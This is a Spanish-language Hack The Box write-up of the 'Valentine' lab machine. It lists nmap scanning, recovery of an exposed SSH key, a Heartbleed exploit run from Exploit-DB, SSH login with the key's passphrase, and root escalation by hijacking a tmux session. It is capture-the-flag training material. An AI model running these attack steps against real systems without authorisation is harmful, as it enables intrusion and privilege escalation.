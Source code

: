 # 🕵️ Reconocimiento

Enviamos un `ping` para verificar si la máquina está activa y estimar el sistema operativo por TTL:

```bash
ping -c 1 10.10.10.79
```

![[Valentine1.png]]

- **TTL = 63** → Cercano a 64, se asume que es **Linux**.

---

## 🔍 Escaneo de puertos con Nmap

1. Escaneo completo de puertos abiertos:
   ```bash
   nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.79 -oG allports
   ```
   ![[Valentine2.png]]

2. Escaneo detallado con detección de versión y scripts básicos:
   ```bash
   nmap -sCV -p22,80,443 10.10.10.79 -oN target
   ```
   ![[Valentine3.png]]

- Puertos abiertos:
  - **22:** SSH
  - **80:** HTTP
  - **443:** HTTPS

---

## 🌐 Enumeración web

### HTTP
http://10.10.10.79

![[Valentine4.png]]

### HTTPS

https://10.10.10.79

![[Valentine5.png]]

- Nmap sugiere posibles directorios `/dev/` y `/index/`:
  ![[Valentine6.png]]

### Directorio `/dev/`
http://10.10.10.79/dev

![[Valentine7.png]]
http://10.10.10.79/dev/hype_key
- Encontramos `hype_key`:
  ```bash
xxd -r -p key.txt > id_rsa
chmod 600 id_rsa # y le di este permiso para poder ejecutarlo con el ssh
  ```
  ![[Valentine8.png]]
  ![[Valentine9.png]]

---

## ❤️‍🔥 Heartbleed

1. Verificar vulnerabilidad:
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
2. Exploit con Searchsploit:
   ```bash
   searchsploit -m multiple/remote/32764.py
   python2.7 32764.py 10.10.10.79 -p 443
   ```
   ![[Valentine11.png]]
3. Decodificar cadena Base64:
   ```bash
   echo "BASE64_STRING" | base64 -d > id_rsa
   chmod 600 id_rsa
   ```
   ![[Valentine12.png]]
   ![[Valentine13.png]]

---

## 🔐 Acceso SSH

```bash
ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa \
    -o HostKeyAlgorithms=+ssh-rsa \
    -i id_rsa hype@10.10.10.79
```
- **Passphrase:** `heartbleedbelievethehype`

![[Valentine14.png]]

---

## 🪟 Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 37 columns 174
```

---

## 🧗‍♂️ Escalada de privilegios

1. Listar procesos tmux:
   ```bash
   ps aux | grep tmux
   ```
   ![[Valentine15.png]]
2. Hijack de sesión tmux:
   ```bash
   sudo /usr/bin/tmux -S /.devs/dev_sess
   ```
   ![[Valentine16.png]]

---

# 🧠 Notas

- **CTRL+ALT** en Kitty permite copiar líneas directamente.

---

# 📚 Créditos

- Writeup oficial de HTB  
- [Writeup de adrijmnz](https://github.com/adrijmnz/WriteUps/blob/main/HackTheBox/Easy/Valentine/Valentine.md)
